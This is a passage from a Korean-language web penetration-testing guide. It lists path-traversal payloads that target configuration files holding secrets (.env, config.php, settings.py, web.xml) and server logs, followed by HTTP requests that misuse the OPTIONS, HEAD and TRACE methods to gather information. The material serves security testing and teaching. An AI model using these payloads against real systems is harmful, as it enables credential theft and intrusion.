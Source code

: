 #### 3.1.2. 애플리케이션 설정 파일
```bash
# PHP 설정
../../../etc/php/php.ini
../../../var/www/html/.env
../../../var/www/html/config.php

# Python 설정
../../../app/settings.py
../../../app/.env
../../../requirements.txt

# Java 설정
../../../WEB-INF/web.xml
../../../META-INF/context.xml
../../../application.properties
```

#### 3.1.3. 로그 파일 접근
```bash
# 웹 서버 로그
../../../var/log/apache2/access.log
../../../var/log/nginx/error.log
../../../var/log/httpd/access_log

# 애플리케이션 로그
../../../var/log/application.log
../../../logs/error.log
../../../tmp/debug.log
```

### 3.2. HTTP 메소드 기반 정보 수집

#### 3.2.1. OPTIONS 메소드 악용
```http
OPTIONS /api/users HTTP/1.1
Host: target.com

# 응답에서 허용된 메소드 확인
# Allow: GET, POST, PUT, DELETE, PATCH, OPTIONS
# 추가 헤더 정보 노출 가능
```

#### 3.2.2. HEAD 메소드를 통한 정보 수집
```http
HEAD /sensitive-file.pdf HTTP/1.1
Host: target.com

# 파일 존재 여부 및 메타데이터 확인
# Last-Modified, Content-Length, ETag 등
```

#### 3.2.3. TRACE 메소드 악용
```http
TRACE / HTTP/1.1
Host: target.com
X-Custom-Header: test-value

# 서버가 요청을 그대로 반환하여 내부 정보 노출 가능
```
